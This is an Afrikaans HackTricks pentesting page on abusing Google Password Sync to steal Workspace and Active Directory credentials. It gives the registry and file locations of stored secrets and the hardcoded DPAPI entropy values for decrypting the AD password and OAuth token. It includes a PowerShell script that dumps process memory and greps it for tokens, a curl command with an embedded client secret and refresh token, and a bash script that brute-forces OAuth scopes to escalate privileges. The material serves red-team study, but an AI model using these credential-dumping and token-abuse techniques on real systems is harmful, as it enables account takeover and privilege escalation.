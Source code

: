 # GPS - Google Password Sync

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PR's in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basiese Inligting

Dit is die binêre en diens wat Google bied om **die wagwoorde van die gebruikers tussen die AD** en Workspace **gesinkroniseer te hou**. Elke keer as 'n gebruiker sy wagwoord in die AD verander, word dit na Google gestel.

Dit word geïnstalleer in `C:\Program Files\Google\Password Sync` waar jy die binêre `PasswordSync.exe` kan vind om dit te konfigureer en `password_sync_service.exe` (die diens wat sal voortgaan om te loop).

### GPS - Konfigurasie

Om hierdie binêre (en diens) te konfigureer, is dit nodig om **toegang te gee aan 'n Super Admin hoof in Workspace**:

* Teken in via **OAuth** met Google en dan sal dit **'n token in die register (geënkripteer) stoor**
* Slegs beskikbaar in Domein Beheerders met GUI
* Gee 'n paar **Diensrekening akrediteer van GCP** (json-lêer) met regte om **die Workspace gebruikers te bestuur**
* Baie slegte idee aangesien daardie akrediteer nooit verval nie en misbruik kan word
* Baie slegte idee om 'n SA toegang oor workspace te gee aangesien die SA in GCP gecompromitteer kan word en dit moontlik sal wees om na Workspace te pivot
* Google vereis dit vir domein beheer sonder GUI
* Hierdie akrediteer word ook in die register gestoor

Ten opsigte van AD, is dit moontlik om aan te dui om die huidige **aansoek konteks, anoniem of 'n spesifieke akrediteer** te gebruik. As die akrediteer opsie gekies word, word die **gebruikersnaam** in 'n lêer in die **skyf** gestoor en die **wagwoord** is **geënkripteer** en in die **register** gestoor.

### GPS - Dumping wagwoord en token van skyf

{% hint style="success" %}
Let daarop dat [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) in staat is om **GPS** te detecteer, inligting oor die konfigurasie te verkry en **selfs die wagwoord en token te dekripteer**.
{% endhint %}

In die lêer **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** is dit moontlik om 'n deel van die konfigurasie soos die **`baseDN`** van die AD wat geconfigureer is en die **`gebruikersnaam`** wie se akrediteer gebruik word, te vind.

In die register **`HKLM\Software\Google\Google Apps Password Sync`** is dit moontlik om die **geënkripteerde herlaai token** en die **geënkripteerde wagwoord** vir die AD gebruiker (indien enige) te vind. Boonop, as daar in plaas van 'n token, 'n paar **SA akrediteer** gebruik word, is dit ook moontlik om daardie geënkripteer in daardie register adres te vind. Die **waardes** binne hierdie register is slegs **toeganklik** deur **Administrators**.

Die geënkripteerde **wagwoord** (indien enige) is binne die sleutel **`ADPassword`** en is geënkripteer met behulp van die **`CryptProtectData`** API. Om dit te dekripteer, moet jy dieselfde gebruiker wees as die een wat die wagwoord sinkronisasie geconfigureer het en hierdie **entropy** gebruik wanneer jy die **`CryptUnprotectData`** gebruik: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

Die geënkripteerde token (indien enige) is binne die sleutel **`AuthToken`** en is geënkripteer met behulp van die **`CryptProtectData`** API. Om dit te dekripteer, moet jy dieselfde gebruiker wees as die een wat die wagwoord sinkronisasie geconfigureer het en hierdie **entropy** gebruik wanneer jy die **`CryptUnprotectData`** gebruik: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
Boonop, dit is ook geënkodeer met base32hex met die woordeboek **`0123456789abcdefghijklmnopqrstv`**.

Die entropy waardes is gevind deur die hulpmiddel te gebruik. Dit is geconfigureer om die oproepe na **`CryptUnprotectData`** en **`CryptProtectData`** te monitor en toe is die hulpmiddel gebruik om `PasswordSync.exe` te begin en te monitor wat die geconfigureerde wagwoord en auth token aan die begin sal dekripteer en die hulpmiddel sal **die waardes vir die entropy wat gebruik is** in beide gevalle wys:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

Let daarop dat dit ook moontlik is om die **geënde** waardes in die invoer of uitvoer van die oproepe na hierdie API's te sien (in geval Winpeas op 'n stadium stop om te werk).

In die geval dat die Password Sync **geconfigureer is met SA akrediteer**, sal dit ook in sleutels binne die register **`HKLM\Software\Google\Google Apps Password Sync`** gestoor word.

### GPS - Dumping tokens van geheue

Net soos met GCPW, is dit moontlik om die geheue van die proses van die `PasswordSync.exe` en die `password_sync_service.exe` prosesse te dump en jy sal in staat wees om herlaai en toegang tokens te vind (indien hulle reeds gegenereer is).\
Ek vermoed jy kan ook die AD geconfigureerde akrediteer vind.

<details>

<summary>Dump <code>PasswordSync.exe</code> en die <code>password_sync_service.exe</code> prosesse en soek tokens</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - Genereer toegangstokens vanaf hernuwingstokens

Deur die hernuwingstoken te gebruik, is dit moontlik om toegangstokens te genereer met dit en die kliënt-ID en kliëntgeheim wat in die volgende opdrag gespesifiseer is:
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Scopes

{% hint style="info" %}
Let daarop dat selfs al het jy 'n hernuwingsteken, dit nie moontlik is om enige omvang vir die toegangsteken aan te vra nie, aangesien jy slegs die **omvangs wat deur die toepassing ondersteun word waar jy die toegangsteken genereer** kan aan vra.

Ook, die hernuwingsteken is nie geldig in elke toepassing nie.
{% endhint %}

Standaard sal GPS nie toegang hê as die gebruiker tot elke moontlike OAuth omvang nie, so deur die volgende skrip te gebruik, kan ons die omvangs vind wat met die `refresh_token` gebruik kan word om 'n `access_token` te genereer:

<details>

<summary>Bash skrip om omvangs te brute-force</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

En dit is die uitvoer wat ek op die tyd van skryf gekry het:
```
https://www.googleapis.com/auth/admin.directory.user
```
Wat dieselfde is as wat jy kry as jy nie enige omvang aandui nie.

{% hint style="danger" %}
Met hierdie omvang kan jy **die wagwoord van 'n bestaande gebruiker verander om voorregte te verhoog**.
{% endhint %}

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
